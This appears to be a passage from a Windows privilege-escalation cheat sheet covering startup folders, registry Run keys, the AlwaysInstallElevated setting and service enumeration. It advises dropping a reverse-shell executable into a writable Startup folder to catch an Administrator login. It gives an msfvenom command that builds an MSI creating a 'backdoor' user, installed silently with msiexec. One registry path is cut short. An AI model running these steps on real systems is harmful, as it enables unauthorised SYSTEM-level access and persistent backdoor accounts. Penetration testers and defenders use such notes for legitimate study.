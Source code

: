 ## Startup Applications
```powershell
wmic startup get caption,command
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\R
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

Check permissions
```
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```
If write access -> place `.exe` reverse shell, it will be executed by the Administrator after his login

## Registry

### AlwaysInstallElevated
If this setting is enabled it allows users of any privilege level to install `*.msi` files as `NT AUTHORITY\SYSTEM`

Check if enabled:
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
To exploit create an .msi backdoor and install it:
``` powershell
$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
$ msiexec /quiet /qn /i <PATH TO MSI BACKDOOR>
```

## Services

* Can you modify any service?
* Can you modify the binary that is executed by any service?
* Can you modify the registry of any service?
* Can you take advantage of some unquoted service binary path?

For each service, a registry key exists in `HKLM\SYSTEM\CurrentControlSet\Services`. The subkeys of a service’s key contain information regarding the executable file path, parameters and configuration options.

### Usefull services commands

#### Powershell
List services
```
Get-Service <Nom du service>
Get-Service * | sort DisplayName
Get-WmiObject win32_service | select Name, DisplayName, State, PathName
wmic service list brief
```
Manage service
```
Restart-Service UsoSvc
Start-Service UsoSvc
Stop-Service UsoSvc
```
